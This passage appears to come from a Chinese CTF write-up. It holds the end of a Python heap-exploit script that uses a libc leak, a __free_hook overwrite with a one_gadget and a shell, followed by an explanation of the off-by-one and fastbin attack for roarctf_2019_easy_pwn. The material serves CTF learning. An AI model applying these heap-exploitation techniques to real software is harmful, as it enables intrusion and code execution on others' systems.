 ```python
print(hex(main_arena))
libc = LibcSearcher("__malloc_hook", __malloc_hook)
base = __malloc_hook - libc.dump("__malloc_hook")
sys = base + libc.dump("system")
binsh = base + libc.dump("str_bin_sh")
__free_hook = base + libc.dump("__free_hook")

# 下面的这个payload是用来还原部分堆环境的
# 因为前面读取使用printf函数，在main_arena地址之前不能有空字节，所以会覆盖掉两个chunk的控制信息
# 这里将其还原，保证后面创建chunk的时候能够正常
payload = cyclic(0x40)
payload += p64(0x50)
payload += p64(0x21)
payload += p64(0x90)
payload += p64(0xdeadbeef)     # change write address to __free_hook
payload += p64(0x20)
payload += p64(0x90)
edit(2, payload)

create(0x68, b'colin')  # heaparray[4], reallocate

payload = cyclic(0x40)
payload += p64(0x50)
payload += p64(0x21)
payload += p64(0x90)
payload += p64(__free_hook)     # change write address to __free_hook
payload += p64(0x20)
payload += p64(0x90)

edit(2, payload)
edit(3, p64(base + one_gadgets[1]))
delete(0)

io.interactive()
```
# buu066-roarctf_2019_easy_pwn
也是一道考察off by one漏洞的题目。
经过分析，本题使用的数据结构如下：一共可以创建至多16个这样的结构。
![](https://img-blog.csdnimg.cn/d9fc61de667c4c83ba62a363b6514942.png)
在write_note实现函数中，当输入的size值是原来定义值-10时会触发一个off by one漏洞，能够溢出一个字节。
![](https://img-blog.csdnimg.cn/8ddfaca95d8f48b9bc11c23df6963886.png)
可见本题的思路和上一题类似，但由于本题的堆环境不同，需要对利用姿势加以修改。
![](https://img-blog.csdnimg.cn/7785923b09064a4aa9d59ff219f2d8ad.png)

如上图所示，我们通过off by one漏洞将下一个chunk的size改大，使其能够正好覆盖下一个chunk。由于可读写的空间大小保存在bss段，因此此时我们可读写的空间大小实际上并没有改变。然后将这个改大的chunk释放，这样就会产生一个和下一个chunk完全重合的free chunk，在内部保存有main_arena的地址。通过读取下一个chunk即可获取。
![](https://img-blog.csdnimg.cn/a8952a896bc94888b02f240b7d30f34d.png)
获取到__malloc_hook的地址之后，我们可以通过上图的方式进行fastbin attack。同样是堆块重叠，但这次是将整个unsorted bin chunk都重新申请回来，通过中间的chunk #4修改chunk #5的fd指针到__malloc_hook，这样可以在接下来申请到__malloc_hook处的chunk。
